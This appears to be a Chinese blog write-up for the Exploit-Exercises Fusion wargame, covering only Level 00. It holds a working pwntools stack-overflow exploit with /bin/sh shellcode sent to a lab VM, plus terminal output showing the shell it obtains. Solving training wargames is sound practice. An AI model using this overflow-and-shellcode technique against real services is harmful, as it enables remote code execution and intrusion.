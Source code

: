 +++
title = "Exploit-Exercise_Fusion全攻略+解析"
date = 2018-08-03T01:31:36+00:00
updated = 2020-08-07T02:01:26.829857+00:00
description = "解析猴年马月...没办法，太菜的人没法做输出..."
in_search_index = true

[taxonomies]
tags = [ "WARGAME", "PWN", "stackoverflow", "mitigation",]
categories = [ "WriteUp",]
archives = [ "archive",]
+++
目前进度：

- [x] Level 00
- [ ] Level 01
- [ ] Level 02
- [ ] Level 03
- [ ] Level 04
- [ ] Level 05
- [ ] Level 06
- [ ] Level 07
- [ ] Level 08
- [ ] Level 09
- [ ] Level 10
- [ ] Level 11
- [ ] Level 12
- [ ] Level 13
- [ ] Level 14


<!--more-->
# Level 00

```python
#!/usr/bin/python
from pwn import *
import struct

shellcode = '\xb8\x2f\x73\x68\xf0\x25\xff\xff\xff\x0f\x50\xb8\x2f\x62\x69\x6e\x50\x89\xe3\x31\xc0\xb0\x0b\x31\xc9\x31\xd2\xcd\x80'
prefix='GET '
postfix=' HTTP/1.1' 

r=remote('192.168.116.150', 20000)
r.recvuntil('er is at')
addr=int(r.recv()[0:11],16)
#print addr,hex(addr)
print hex(addr+200)
r.sendline(prefix+'G'*139+p32(addr+200)+postfix+'\x90'*100+shellcode)
r.interactive()
```



```bash
root@kali:~/Documents/Fusion# ./level00.py 
[+] Opening connection to 192.168.116.150 on port 20000: Done
0xbffff9c0
[*] Switching to interactive mode
$ id
uid=20000 gid=20000 groups=20000
```